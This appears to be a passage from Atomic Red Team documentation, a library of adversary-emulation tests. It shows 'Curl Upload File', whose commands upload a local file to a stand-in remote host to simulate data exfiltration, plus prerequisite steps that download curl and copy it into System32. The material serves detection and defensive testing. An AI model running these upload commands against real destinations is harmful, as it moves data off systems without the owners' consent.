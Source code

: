 ##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-7.79.1-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl"
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
```

<br/>
<br/>

## Atomic Test #19 - Curl Upload File

The following Atomic utilizes native curl.exe, or downloads it if not installed, to upload a txt file to simulate data exfiltration
Expected output will include whether the file uploaded successfully or not.

**Supported Platforms:** Windows

**auto_generated_guid:** 635c9a38-6cbf-47dc-8615-3810bc1167cf

#### Inputs:

| Name               | Description        | Type   | Default Value                            |
| ------------------ | ------------------ | ------ | ---------------------------------------- |
| curl_path          | path to curl.exe   | path   | C:&#92;Windows&#92;System32&#92;Curl.exe |
| remote_destination | Remote destination | string | www.example.com                          |
| file_path          | File to upload     | string | c:&#92;temp&#92;atomictestfile.txt       |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{curl_path} -T #{file_path} #{remote_destination}
#{curl_path} --upload-file #{file_path} #{remote_destination}
#{curl_path} -d #{file_path} #{remote_destination}
#{curl_path} --data #{file_path} #{remote_destination}
```

#### Dependencies: Run with `powershell`!

##### Description: Curl must be installed on system.

##### Check Prereq Commands:

```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```

##### Get Prereq Commands:
